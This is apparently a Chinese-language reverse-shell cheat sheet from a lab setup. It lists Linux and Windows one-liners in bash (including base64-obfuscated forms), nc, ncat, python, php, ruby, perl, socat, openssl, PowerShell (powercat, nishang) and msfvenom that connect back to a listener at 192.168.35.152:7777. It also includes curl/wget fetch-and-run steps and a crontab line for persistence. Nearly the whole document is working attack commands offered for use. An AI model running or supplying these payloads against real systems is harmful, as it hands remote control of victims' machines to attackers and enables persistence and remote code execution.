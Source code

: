 # 反弹Shell-Linux

```bash
【监听端】centos: 192.168.35.152
【被控端】kali: 192.168.35.128
    
# 监听端执行
[root@localhost ~]# nc -vvl 7777
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
```

## bash

```python
┌──(root@kali)-[/home/kali]
└─# bash -i >& /dev/tcp/192.168.35.152/7777 0>&1     # 执行失败                                   
zsh: 没有那个文件或目录: /dev/tcp/192.168.35.152/7777 
```

## bash base64

```bash
# /bin/bash -i >& /dev/tcp/192.168.35.152/7777 0>&1
bash -c '{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzUuMTUyLzc3NzcgMD4mMSAgIA==}|{base64,-d}|{bash,-i}'
```

## bash base64 URLencode

```bash
# /bin/bash -i >& /dev/tcp/192.168.35.152/7777 0>&1
bash -c '{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzUuMTUyLzc3NzcgMD4mMSAgIA%3D%3D}|{base64,-d}|{bash,-i}'
```

## nc

```bash
nc -e /bin/bash 192.168.35.152 7777
mknod backpipe p && nc 192.168.35.152 7777 0<backpipe | /bin/bash 1>backpipe 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.35.152 7777 >/tmp/f
```

## ncat

```bash
ncat  192.168.35.152 7777 -e /bin/bash
ncat --udp 192.168.35.152 7777 -e /bin/bash
```

## curl

攻击方：

```bash
cat bash.html
/bin/bash -i >& /dev/tcp/192.168.35.152/7777 0>&1
```

被控端：

```
curl 192.168.35.152/bash.html|bash
```

## http

攻击方：

```bash
# 编写shell脚本并启动http服务器
echo "bash -i >& /dev/tcp/192.168.35.152/7777 0>&1" > shell.sh
python2环境下：python -m SimpleHTTPServer 80
python3环境下：python -m http.server 80
```

被控端：

```bash
# 上传shell.sh文件
wget 192.168.35.152/shell.sh
# 执行shell.sh文件
bash shell.sh
```

## crontab

```bash
* * * * * root bash -i >& /dev/tcp/192.168.35.152/7777  0>&1
```

## whois

```bash
# 只能执行指定命令，如pwd命令
whois -h 192.168.35.152 -p 7777 `pwd` 
```

## python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.35.152",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php

```bash
php -r '$sock=fsockopen("192.168.35.152",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("192.168.35.152",7777).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  # 执行失败
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.35.152","7777");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## socat

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.35.152:7777
```

## perl

```bash
perl -e 'use Socket;$i="192.168.35.152";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## php

```bash
php -r '$sock=fsockopen("192.168.35.152",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## openssl

```bash
# 监听端
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 7777
# or
ncat --ssl -vv -l -p 7777

# 受控端
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.35.152:7777 > /tmp/s; rm /tmp/s
```

# 反弹Shell-Windows

- Windows下的反弹shell仅测试了nc，执行成功。

```bash
【监听端】centos: 192.168.35.152
【被控端】windows: 192.168.35.1
    
# 监听端执行
[root@localhost ~]# nc -vvl 7777
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
```

## powercat

项目地址：https://github.com/besimorhino/powercat

```bash
System.Net.Webclient.DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.35.152 -p 7777 -e cmd
```

## nc

```bash
nc 192.168.35.152 7777 -e c:\windows\system32\cmd.exe
```

## nishang

Nishang是一个基于PowerShell的攻击框架，整合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell。

项目地址：https://github.com/samratashok/nishang

```bash
# 将nishang下载到攻击者本地，在目标机使用powershell执行以下命令
IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.35.152 -port 7777
```

## Reverse UDP shell

```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.35.152/nishang/Shells/Invoke-PowerShellUdp.ps1');

Invoke-PowerShellUdp -Reverse -IPAddress 192.168.35.152 -port 7777
```

## MSF

```bash
# 找出各类反弹一句话payload的路径信息
msfvenom -l payloads | grep 'cmd/windows/reverse'

# 生成反弹shell，复制粘贴到靶机上运行
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.35.152 LPORT=7777
```

